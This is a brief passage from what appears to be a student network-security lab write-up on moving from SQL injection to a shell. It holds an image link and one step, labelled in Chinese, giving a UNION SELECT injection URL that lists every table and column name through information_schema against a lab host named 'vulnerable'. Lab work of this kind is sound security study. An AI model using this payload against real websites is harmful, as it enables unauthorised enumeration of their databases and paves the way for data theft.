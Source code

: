 ​        ![12](https://github.com/CUCCS/2018-NS-Public-jackcily/raw/Ns_chap0x07_%E4%BB%8ESQL%E6%B3%A8%E5%85%A5%E5%88%B0Shell/img/12.PNG)
​        



4.同时输出列和列对应的表名称：  `http://vulnerable/cat.php?id=1 UNION SELECT 1,concat(table_name ,':',column_name),3,4 FROM information_schema.columns`
​   
